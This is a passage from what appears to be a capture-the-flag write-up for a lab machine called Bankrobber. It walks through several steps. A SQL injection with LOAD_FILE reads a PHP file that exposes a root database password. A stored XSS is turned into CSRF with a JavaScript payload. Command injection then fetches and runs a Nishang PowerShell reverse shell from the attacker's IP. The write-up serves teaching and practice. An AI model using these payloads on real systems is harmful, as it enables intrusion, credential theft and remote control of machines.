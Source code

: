 Getting source code of _link.php_:
```
term=2' union select 1,LOAD_FILE('c:/xampp/htdocs/link.php'),3-- -
```
```
$user = 'root';
$pass = 'Welkom1!';
$dsn = "mysql:host=127.0.0.1;dbname=bankrobber;";
(...)
```

- It does three checks to block command execution attempts
  - Block _"$"_ and _"&"_
  - Input has to contain `dir`
  - Remote address has to be _::1_ (localhost)

As the remote address has to be _localhost_, the **XSS vulnerability** from before can be used to call _backdoorchecker.php_ itself.

### Cross-Site-Request-Forgery (CSRF)

By using the **XSS vulnerability** to execute JavaScript files from our box, it becomes a **CSRF vulnerability**.
Now we create a payload _(bankrobber_payload.js)_ to call _backdoorchecker.php_ via POST request and it will execute itself from _localhost_ and all restrictions are bypassed:
```js
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | ping -n 1 10.10.14.14";

xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'Application/x-www-form-urlencoded');
xhr.withCredentials = true;
xhr.send(params);
```

This payload is hosted on our local client and with the XSS vulnerability from before, it can be called to execute _backdoorchecker.php_ with the parameter to `ping` our client:
```
POST /user/transfer.php
(...)
fromId=3&toId=1&amount=1&comment=<script src=http://10.10.14.14/bankrobber_payload.js></script>
```

After a while the request is accepted and the `tcpdump` gets ICMP responses back from the box and command execution is proofed.

Lets start a reverse shell by changing the `ping` command to _Invoke-PowerShellTcp.ps1_ from the **Nishang scripts** to the box:
```
(...)
var params = "cmd=dir | powershell -exec bypass -f \\\\10.10.14.14\\www\\nishang-shell.ps1";
(...)
```

After sending the request, it will execute the PowerShell command to download and execute _nishang-shell.ps1_ and the listener on my IP and port 9001 starts a reverse shell session as the user _cortin_.
